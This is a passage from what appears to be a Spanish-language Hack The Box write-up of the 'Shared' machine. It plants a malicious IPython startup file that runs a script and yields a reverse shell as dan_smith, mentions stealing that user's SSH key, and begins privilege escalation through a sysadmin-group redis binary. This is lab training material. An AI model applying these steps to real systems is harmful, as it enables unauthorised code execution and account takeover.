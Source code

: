```bash
mkdir -m 777 /opt/scripts_review/profile_default && mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("/tmp/test/jujui.sh")' > /opt/scripts_review/profile_default/startup/hola.py
```

Esperamos el minuto yyyy:

PAILA

PAIL

PAI

PA

P

Mentiris:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shared/483bash_danSmithRevSH.png" style="width: 100%;"/>

SOMOS **DAN!!** 🎇 

Antes de seguir volvamos nuestra terminal funcional, ya que si ejecutamos `CTRL^C` la perderemos, no tenemos histórico de comandos y no podemos movernos entre ellos.

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty)

> Tambien podemos robarnos la llave privada SSH de **dan_smith** para usarla como contraseña para obtener infinidad de terminales mediante **SSH**. Te dejo de tarea investigar como funciona esto :P

Ahora si, a explorar y escalar más privilegios...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Entre los grupos asignados a **dan_smith** vemos uno curiosito:

```bash
dan_smith@shared:/opt/scripts_review$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

El grupo `sysadmin` está raro, busquemos ahora con él archivos y cositas en el sistema:

```bash
dan_smith@shared:/opt/scripts_review$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
```

Jmmm, un binario relacionado a **redis**:

> `Redis` "significa **Remote Dictionary Server**, es un rápido almacén de datos (base de datos) clave-valor en memoria." ~ [Amazon](https://aws.amazon.com/es/redis/).

Si lo ejecutamos vemos:
